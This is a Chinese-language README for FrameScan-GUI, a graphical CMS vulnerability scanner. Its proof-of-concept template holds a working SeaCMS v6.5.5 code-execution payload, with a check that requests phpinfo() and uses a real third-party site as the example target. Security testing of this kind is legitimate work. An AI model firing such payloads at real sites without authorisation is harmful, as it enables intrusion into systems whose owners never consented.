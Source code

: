 # FrameScan-GUI

## 工具简介
FrameScan-GUI是一款python3和Pyqt编写的具有图形化界面的cms漏洞检测框架，是[FrameScan](https://github.com/qianxiao996/FrameScan) 的加强版。支持多种检测方式，支持大多数CMS，可以自定义CMS类型及自行编写POC。旨在帮助有安全经验的安全工程师对已知的应用快速发现漏洞。
#### 下载地址：https://github.com/qianxiao996/FrameScan-GUI/releases

## 支持平台

- Windows  


### 使用方法

下载本项目，运行exe即可。

![1](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/1.jpg)

![2](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/2.jpg)

## 更新日志

#### 2020-04-05 v1.2

1、修复菜单栏开始扫描
2、增加选择线程
3、开始扫描后设置按钮不可点击，结束后恢复
4、修复若干bug
5、优化程序代码
6、使用QSS来美化界面

#### 2019-10-29  v1.1

初始提交

## 自定义POC模板

以下为POC模板，请尽量规范编写。脚本中为示例代码。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 漏洞名称（禁止换行）控制在30字以内
referer: 漏洞地址（禁止换行）未知请填unknown
author: 作者名
description: 漏洞描述 
'''
import sys
import requests
import warnings
#方法名称自定义
class seacms_655_code_exec:
    def __init__(self, url):
        self.url = url
    def run(self):
        #此处编辑检测代码
        #示例代码，请更改result内容，result[0]为漏洞名称,result[1]为返回的内容，result[2]为测试结果
        result = ['seacms v6.5.5代码执行漏洞','','']
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*"
        url_path = self.url + "/search.php?phpinfo();"
        try:
            data = requests.get(url_path, timeout=3,headers=headers, verify=False)
            if data.status_code == 200 and 'phpinfo' in data.text:
                result[2]= "存在"
                result[1] = "URL:%s\nPOST:%s"%(url_path,payload)
            else:
                result[2] = "不存在"
        except Exception as e:
            # print (e)
            result[2] ="未知"
            #这里可设置未知，连接超时等，只有不存在不会显示到结果中。
        return result
        #最后一定要返回一个带有3个参数的列表。不然会出错误。

if __name__ == "__main__":
    #此处不会调用
    warnings.filterwarnings("ignore")
    testVuln = seacms_655_code_exec("http://baidu.com")
    print(testVuln.run())
```

## 鸣谢

POC多数来源于[AngelSword](https://github.com/Sch01ar/AngelSword)
部分为自己编写，欢迎投递POC

邮箱地址：qianxiao996@126.com

## 警告！
**请勿用于非法用途！否则自行承担一切后果**



## 使用问题

### 问题一

![3](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/3.png)

将Qt安装目录下的platforms文件夹复制到exe程序目录。若风格不同，复制styles文件夹到程序目录。

### 问题二

若出现以下提示模块不存在，请pip安装模块或在Plugins.py中注释掉该行。

![4](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/4.png)

```
pyinstaller -D -w FrameScan-GUI.py -i img/main.ico
```
